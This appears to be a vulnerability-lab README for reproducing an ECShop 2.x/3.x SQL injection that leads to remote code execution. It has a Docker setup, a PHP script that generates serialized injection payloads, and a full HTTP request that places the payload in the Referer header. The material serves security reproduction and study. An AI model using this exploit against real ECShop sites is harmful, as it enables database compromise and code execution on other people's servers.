 # ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.

In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.

Reference link:

- http://ringk3y.com/2018/08/31/ecshop2-x代码执行/

## Environment setup

Run the following commands to start environment

```
docker-compose up -d
```

After the environment start, visit `http://your-ip:8080`, you will see the 2.7.3 installation page. Visit `http://your-ip:8081`, you will see the 3.6.0 installation page.

Install both of them, mysql address is `mysql`, mysql account and password are `root`, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same. 

As the picture shows:

![](0.png)

## Expliot

There is a script that can generate POC for 2.x and 3.x:

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

Put POC in the HTTP-Referer:

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Result of 2.x:

![](1.png)

Result of 3.x:

![](2.png)
